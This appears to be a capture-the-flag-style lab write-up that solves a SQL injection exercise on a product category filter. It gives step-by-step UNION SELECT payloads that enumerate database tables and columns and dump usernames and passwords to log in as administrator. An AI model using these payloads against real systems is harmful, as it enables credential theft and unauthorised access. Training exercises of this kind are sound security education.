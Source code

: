 # SQL injection attack, listing the database contents on non-Oracle databases

### Lab description
 This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users. 

**Goal:** log in as the **administrator** user. 

---

## Steps

Select category and forward request to repeater.
Determine text fields. 
```SQL
'+UNION+SELECT+NULL,'QWE'--   200 OK
```

For extract list of tables names in DB use this payload:

```SQL
'+UNION+SELECT+NULL,+TABLE_NAME+FROM+information_schema.tables--   200 OK
```

Use search to find users_ousivx and use payload for retrieve details of the columns:

```SQL
'+UNION+SELECT+NULL,+COLUMN_NAME+FROM+information_schema.columns+WHERE+TABLE_NAME+=+'users_ousivx'--   200 OK
```

Then extract column_name details:

```SQL
'+UNION+SELECT+NULL,+COLUMN_NAME+FROM+information_schema.columns+WHERE+TABLE_NAME+=+'users_ousivx'--   200 OK
```

We find **password_mnpvgn** and **username_fjgkjn**

Then simply do 1 + 1 and:

```SQL
'+UNION+SELECT+username_fjgkjn,password_mnpvgn+FROM+users_ousivx--   200 OK
```

And we retrieve users log in credentials. Then log in as **administrator**.





> ### **Congratulations, you solved the lab!**